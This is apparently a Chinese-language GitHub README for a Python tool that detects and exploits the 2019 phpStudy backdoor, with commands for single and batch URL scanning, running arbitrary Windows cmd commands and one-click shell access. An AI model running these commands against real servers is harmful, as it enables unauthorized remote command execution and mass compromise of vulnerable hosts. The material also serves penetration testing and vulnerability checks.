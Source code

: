 # phpStudyBackDoor
phpStudy后门检测与利用工具，Python脚本，可一键 GetShell。

## 简述
2019年9月20日，网上传出 phpStudy 软件存在后门，随后作者立即发布声明进行澄清，其真实情况是该软件官网语2016年被非法入侵，然后软件安装包（php_xmlrpc.dll）被植入后门，可进行执行远程命令执行。

此工具为 python 3 编写，支持单 url 检测和批量 url 检测，以及执行 cmd 命令、一键 GetShell

## 环境
python 3

pip install requests

## 漏洞检测利用

### 0.帮助

``python phpStudyBackDoor.py -h``
![帮助](https://raw.githubusercontent.com/Writeup001/phpStudyBackDoor/master/image/help.png)


### 1.单 url 检测

``python phpStudyBackDoor.py -u "http://192.168.80.128"``

存在漏洞与不存在漏洞
![](https://raw.githubusercontent.com/Writeup001/phpStudyBackDoor/master/image/vuln.png)
![](https://raw.githubusercontent.com/Writeup001/phpStudyBackDoor/master/image/novuln.png)



### 2.执行 cmd 命令
可执行 Windows 下任意 cmd 命令（前提是开启了 system 函数，默认为开启状态）

``python phpStudyBackDoor.py -u "http://192.168.80.128" --cmdshell``

![](https://raw.githubusercontent.com/Writeup001/phpStudyBackDoor/master/image/cmdshell.png)

### 3.一键 GetShell 
这个可是真的一键 Getshell 不骗人~~

``python phpStudyBackDoor.py -u "http://192.168.80.128" --getshell``
![](https://raw.githubusercontent.com/Writeup001/phpStudyBackDoor/master/image/getshell.png)

### 4.批量 url 检测
对 url.txt 文件中的链接进行批量检测

``python phpStudyBackDoor.py -u "http://192.168.80.128" -f url.txt``
![](https://raw.githubusercontent.com/Writeup001/phpStudyBackDoor/master/image/batch.png)
